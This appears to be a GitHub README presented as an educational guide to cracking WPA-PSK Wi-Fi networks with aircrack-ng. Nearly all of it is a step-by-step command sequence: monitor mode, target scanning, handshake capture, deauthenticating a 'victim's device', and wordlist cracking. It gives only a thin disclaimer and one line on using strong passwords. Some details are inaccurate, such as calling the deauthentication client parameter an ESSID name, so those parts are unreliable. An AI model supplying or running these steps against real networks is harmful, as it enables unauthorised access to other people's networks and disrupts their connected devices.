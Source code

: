 # Wi-Fi Network Hacking Guide (Educational)

When you enable Wi-Fi in public places, you'll encounter numerous networks that likely utilize WPA-PSK encryption. Although these networks are susceptible to hacking, it is crucial to emphasize that this guide is strictly for educational purposes. Engaging in these activities on networks without proper authorization is illegal. Having addressed this disclaimer, let's explore the underlying mechanisms, the practical execution, and measures to safeguard yourself against such vulnerabilities.

## Introduction

When you connect to a network from a wireless device, a `handshake` is sent from the device to the router. This handshake contains the encrypted password.

While it's not possible to reverse the encrypted password, you can use a technique called a word list attack. A word list is a huge text file containing thousands of passwords. By comparing the encrypted handshake password with the passwords in the word list, you can determine the real password.

## Requirements
For this guide, to perform Wi-Fi network hacking, you'll need:
- Computer running `Linux` distribution;
- Computer with a network card that supports `monitor mode`;
- Install the package `Aircrack-ng` with the command `sudo apt install aircrack-ng`;

## Procedure
### 1 - Determine the Network Interface
Identify the wireless network interfaces, which usually start with w (e.g., wlp3s0).
<br>This information will be needed later.
<br>Open a terminal and type:

```
ip a
```

> _The "ip a" command in Linux displays network interface information, including IP addresses, MAC addresses, and related configurations. It is used for troubleshooting and network configuration purposes._

### 2 - Enable Monitor Mode
Use the airmon-ng tool to switch your network card to monitor mode.
<br>It will break your internet connection temporarily.
<br>Enter the command:

```
airmon-ng start <wireless interface>
```

Example: `airmon-ng start wlp3s0`

### 3 - Verify Monitor Mode
The wireless interface should be displayed as `<interface>mon` (e.g., wlp3s0mon).
<br>If not, it means your network card doesn't support monitor mode, and you'll need the external network card mentioned earlier.
<br>Run the command in a terminal to check if the network card's mode has changed to monitor.

```
iwconfig
```

### 4 - Scan for Networks
Use airodump-ng to view the networks around you.
<br>This command will display a list of nearby networks along with their BSSIDs (network MAC addresses) and channels.
<br>Enter the command:

```
airodump-ng <wireless interface>mon
```

Example: `airodump-ng wlp3s0mon`


### 5 - Target Network
Identify the BSSID and channel of the network you wish to attack.

### 6 - Capture the Handshake
This command will start capturing the handshake from devices connected to the target network.
<br>In a new terminal window, enter the command:

```
airodump-ng --bssid <BSSID> --channel <channel> --write <filename> <wireless interface>mon
```
- `<BSSID>` - target network's BSSID;
- `<channel>` - target network's channel;
- `<filename>` - desired name for the captured handshake file;
- `<wireless interface>mon` - name of your wireless interface in monitor mode;

### 7 - Deauthentication Attack
Now we need to to send deauthentication packets to the victim's device, forcing it to disconnect and reconnect to the network.
<br>Use the command:

```
aireplay-ng -0 10 -a <BSSID> -c <client ESSID> <wireless interface>mon
```

- `<BSSID>` - target network's BSSID;
- `<client ESSID>` - ESSID (name) of the device you want to deauthenticate (e.g., the victim's device);
- `<wireless interface>mon` - name of your wireless interface in monitor mode;

### 8 - Capture the Handshake
Observe the terminal running `airodump-ng` (step 6) and wait for a device to reconnect.
<br>Once the handshake is captured, you can stop `airodump-ng` by pressing `Ctrl+C`.
<br>The captured handshake will be saved in the specified filename.

### 9 - Word List Attack
Kali Linux comes with pre-installed word lists located in the directory `/usr/share/wordlists`.
<br>If your not on Kali, you can download a word list from here.
<br>Now lets attempt to match the captured handshake with passwords from the word list.
<br>Use the command:

```
aircrack-ng -w <wordlist> <filename>
```

- `<wordlist>` - path to the desired word list file (e.g., /usr/share/wordlists/rockyou.txt);
- `<filename>` - name of the captured handshake file;

### 10 - Cracked!
Note: After performing these steps, your internet connection may still be interrupted. To fix this, you can either restart your computer or execute the command airmon-ng stop <monitor interface> followed by systemctl restart network* to restart the network services.

## Protecting Yourself
While you cannot prevent the authentication process, you can protect against word list attacks by choosing a long and random password that is unlikely to be found in any word list.

## Conclusion
In this guide, we explored the process of Wi-Fi network hacking for educational purposes only. It is essential to respect privacy and legality when using these techniques. We discussed capturing handshakes, performing deauthentication attacks, and cracking passwords using word lists. Remember to always use this knowledge responsibly and protect yourself by setting strong passwords for your Wi-Fi networks.

If you found this guide helpful, feel free to leave a star and thank you for reading!

## GLOSSARY
## DISCLAIMER

